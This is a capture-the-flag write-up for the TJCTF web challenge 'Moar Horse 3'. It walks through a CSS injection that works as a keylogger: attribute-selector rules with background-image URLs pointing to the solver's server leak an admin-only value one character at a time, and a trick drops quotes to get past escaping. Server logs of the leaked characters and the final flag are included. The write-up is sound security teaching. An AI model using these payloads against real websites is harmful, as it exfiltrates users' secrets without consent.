



# Moar Horse 3
Web

## Challenge 

I copped this [really cool website](https://moar_horse_3.tjctf.org/) from online and made it customizable so you can flex your CSS skills on everyone, especially the admin.

Note: When you get the flag, wrap it in tjctf{} before submitting

Hint: The flag is alphanumeric

## Solution

#### CSS Injection

Visiting the page, we see that we can submit any CSS text. At the bottom, we can make an admin visit with our CSS.

Take a look at the page source,

	

	    <h1 class="lead flag" value="You're not an admin! If you were, this would be the flag.">Welcome to my awesome website!</h1>
	    

	    
Enter custom CSS below to make the website look exactly how you want it to

	    <form method="POST">
	        

	            <label for="custom_css_ta">Custom CSS</label>
	            <textarea class="form-control" name="custom_styles" id="custom_css_ta"
	                rows="3"></textarea>
	        

	        <button type="submit" class="btn btn-primary" id="save_css">Save</button>
	    </form>
	

We see an element value `"You're not an admin! If you were, this would be the flag."`.

This reminded me of a CSS keylogger I saw a few years back

Resources:

- https://css-tricks.com/css-keylogger/
- https://www.bram.us/2018/02/21/css-keylogger-and-why-you-shouldnt-worry-about-it/
- https://www.w3schools.com/CSS/css_attribute_selectors.asp

#### CSS Keylogger

How it works, in short is that a page request can be made with the following CSS

	.flag[value^='a'] {
		background-image: url('http://<my_ip_address>:8081/test');
	}

If the value of the element starts with a `a`, then it will load the page `http://<my_ip_address>:8081/test`

Do it for every alphanumeric character and we can make the admin reveal the flag.

---

When we submit, quotes get escaped.

	h1.flag[value^=&#39;a&#39;] {
	  background-image: url(&#34;http://<my_ip_address>:8081/test=helloworld&#34;);
	}

Thankfully, CSS allows it without quotes.

https://stackoverflow.com/questions/5578845/css-attribute-selectors-the-rules-on-quotes-or-none

	.flag[value^=a] {
	  background-image: url(http://<my_ip_address>:8081/test=a);
	}

And I launched a HTTP server on my IP address. And we can see the logs.

	$ python -m SimpleHTTPServer 8081
	Serving HTTP on 0.0.0.0 port 8081 ...
	192.168.1.254 - - [09/Apr/2019 18:32:02] code 404, message File not found
	192.168.1.254 - - [09/Apr/2019 18:32:02] "GET /helloworld HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:32:15] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:32:15] "GET /helloworld HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:32:20] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:32:20] "GET /helloworld HTTP/1.1" 404 -

Now using a script, it generated every combination of alphanumeric

> [generate.py](generate.py)

And repeat the process for every iteration of the flag, submitting it to the server...
 

Slowly exfilterate the flag

	$ python -m SimpleHTTPServer 8081
	Serving HTTP on 0.0.0.0 port 8081 ...
	192.168.1.254 - - [09/Apr/2019 18:40:48] "GET /flag0=Y HTTP/1.1" 404 -
	192.168.1.254 - - [09/Apr/2019 18:41:33] code 404, message File not found
	192.168.1.254 - - [09/Apr/2019 18:41:33] "GET /flag0=Y HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:41:43] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:41:43] "GET /flag0=l HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:43:37] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:43:37] "GET /flag1=l0 HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:43:55] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:43:55] "GET /flag1=l0 HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:44:29] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:44:29] "GET /flag1=l0 HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:44:54] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:44:54] "GET /flag2=l0l HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:46:07] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:46:07] "GET /flag3=l0l1 HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:52:26] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:52:26] "GET /flag4=l0l1n HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:53:35] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:53:35] "GET /flag5=l0l1nj HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:54:36] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:54:36] "GET /flag6=l0l1nj3 HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:55:39] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:55:39] "GET /flag7=l0l1nj3c HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:56:46] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:56:46] "GET /flag8=l0l1nj3ct HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:58:07] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:58:07] "GET /flag9=l0l1nj3ctc HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:59:53] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:59:53] "GET /flag10=l0l1nj3ctc5 HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 19:01:30] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 19:01:30] "GET /flag11=l0l1nj3ctc55 HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 19:02:49] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 19:02:49] "GET /flag_final=l0l1nj3ctc55 HTTP/1.1" 404 -

## Flag

	tjctf{l0l1nj3ctc55}
